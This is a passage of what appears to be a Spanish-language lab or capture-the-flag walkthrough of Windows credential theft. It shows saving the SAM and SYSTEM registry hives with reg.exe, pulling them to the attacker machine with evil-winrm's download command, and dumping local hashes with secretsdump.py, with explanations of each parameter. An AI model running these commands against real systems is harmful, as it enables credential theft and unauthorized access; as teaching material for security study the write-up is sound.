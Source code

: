 ```powershell
PS C:\Users\svc_backup\Desktop> reg.exe save hklm\sam sam.save
```

Tras la extracción, estos archivos son transferidos a la máquina atacante. Este paso puede realizarse con el comando `download` de `evil-winrm`:

```powershell
PS C:\Users\svc_backup\Desktop> download C:\Users\svc_backup\Desktop\system.save
PS C:\Users\svc_backup\Desktop> download C:\Users\svc_backup\Desktop\sam.save
```

Finalmente, se ejecuta el siguiente comando en la máquina atacante:

```shell
r1pfr4n@parrot> secretsdump.py -sam sam.save -system system.save LOCAL
```

Los parámetros empleados en este comando son los siguientes:

- `-sam sam.save`: Identifica el archivo SAM que se usará. En este caso, se utiliza `sam.save`, que fue extraído previamente de la máquina objetivo.
- `-system system.save`: Especifica el archivo del sistema a usar, que es `system.save` en este ejemplo.
- `LOCAL`: Señala que el volcado de SAM se realizará de manera local. Esto implica que `secretsdump.py` buscará los archivos especificados en la máquina local, en lugar de intentar conectar y extraer los archivos de una máquina remota.

El resultado obtenido será similar al siguiente:

![imagen 49](Pasted image 20230724234957.png)

Es esencial entender que la cuenta "Administrator" mostrada en este volcado de SAM no es la misma que la cuenta de "Administrator" del dominio. Aunque ambas comparten el mismo nombre, son cuentas totalmente distintas. La cuenta "Administrator" en este volcado de SAM es una cuenta local del sistema, no una cuenta de dominio. En consecuencia, las credenciales de esta cuenta "Administrator" no otorgarían acceso como administrador del dominio.

Además, es importante tener en cuenta que las credenciales de la cuenta "Administrator" de la SAM pueden no resultar útiles en la práctica. Esto se debe a que la cuenta "Administrator" local suele estar deshabilitada por defecto en muchos sistemas Windows, en particular en los servidores, como medida de seguridad para prevenir el acceso no autorizado al sistema. Por lo tanto, en el caso de intentar utilizar estas credenciales, es probable que el acceso sea denegado.



